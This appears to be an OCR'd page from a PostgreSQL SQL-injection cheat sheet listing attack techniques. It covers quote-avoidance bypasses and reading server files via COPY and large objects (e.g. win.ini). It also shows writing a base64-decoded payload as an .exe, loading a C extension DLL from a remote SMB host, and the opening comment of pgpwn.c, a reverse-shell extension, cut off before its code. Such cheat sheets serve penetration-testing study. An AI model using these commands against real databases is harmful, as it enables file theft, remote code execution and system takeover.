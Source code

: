 - Bypass
  - Avoid quotes: `SELECT CHR(65) || CHR(65) || CHR(65) || CHR(65);` = `SELECT 'AAAA';` = `SELECT $$AAAA$$;` == `SELECT $TAG$AAAA$TAG$;`
  - <https://www.postgresql.org/docs/9.4/functions-string.html>
  - <https://www.postgresql.org/docs/9.4/sql-syntax-lexical.html>
- File access
  - Read: `COPY <table_name> from <file_name>`
    - Read file using SQLI
    ```sql
    CREATE temp table test (content text);
    COPY test from $$c:\test.txt$$;

    SELECT content from test;
    DROP table test;
    ```
  - Write: 
    - Cannot handle multiple lines
    - `COPY <table_name> to <file_name>`
    - `COPY (select $$example$$) to <file_name>`
    - `COPY (select convert_from(decode($$ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\example.exe$$;`
- Load extension: 
  - `CREATE OR REPLACE FUNCTION test(text, integer) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;`
  - `CREATE OR REPLACE FUNCTION test(text, integer) RETURNS void AS $$\\192.168.1.2\test\test.dll$$, 'test' LANGUAGE 'C' STRICT;`
  - `c:\Program Files (x86)\PostgreSQL\9.2\include\server\port\win32_msvc;c:\Program Files (x86)\PostgreSQL\9.2\include\server\port\win32;c:\Program Files (x86)\PostgreSQL\9.2\include\server;c:\Program Files (x86)\PostgreSQL\9.2\include;%(AdditionalIncludeDirectories)`
- Large object
  - <https://www.postgresql.org/docs/9.2/static/largeobjects.html>
  - Read file:
    - `select lo_import('C:\\Windows\\win.ini', 1234);`
    - `select loid, pageno from pg_largeobject;`
    - The amount of data per page is defined to be LOBLKSIZE (which is currently BLCKSZ/4, or typically 2 kB).
    - `select loid, pageno, encode(data, 'escape') from pg_largeobject;`
  - Write file:
    - `update pg_largeobject set data=decode('74657374', 'hex') where loid=1234 and pageno=0;`
    - `select lo_export(1234, 'C:\\new_win.ini');`
  - List: `\lo_list`
  - Delete: `\lo_unlink 1234`

<https://github.com/sourceincite/tools/blob/master/pgpwn.c>
```c
/*
pgpwn.c
date: 23/11/2016
Developed by: mr_me
Synopsis:
=========
This code creates a postgres extension that registers a connect_back() function
allowing an attacker to gain a reverse shell.
Motivation:
===========
A zero-day that runs the postgres user as SYSTEM and whereby I could not gain rce via writing to disk without a reboot.
Benefits:
=========
- No touching disk...
- Can be loaded from remote...
Example Usage:
==============
1. Register the function:
-------------------------
```